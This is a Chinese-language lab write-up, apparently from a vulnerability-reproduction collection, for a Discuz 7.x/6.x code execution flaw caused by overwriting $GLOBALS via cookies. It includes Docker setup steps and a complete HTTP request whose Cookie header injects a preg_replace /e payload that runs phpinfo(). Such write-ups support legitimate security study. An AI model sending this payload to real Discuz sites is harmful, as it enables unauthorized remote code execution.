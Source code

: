 # Discuz 7.x/6.x 全局变量防御绕过导致代码执行

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

- https://www.secpulse.com/archives/2338.html

## 漏洞环境

执行如下命令启动Discuz 7.2：

```
docker compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写`db`，数据库名为`discuz`，数据库账号密码均为`root`。

![](1.png)

## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close


```

可见，phpinfo已成功执行：

![](2.png)

> 网上文章说需要一个带表情评论的帖子，实际测试发现并不需要，这块仍需阅读代码来解释原因。
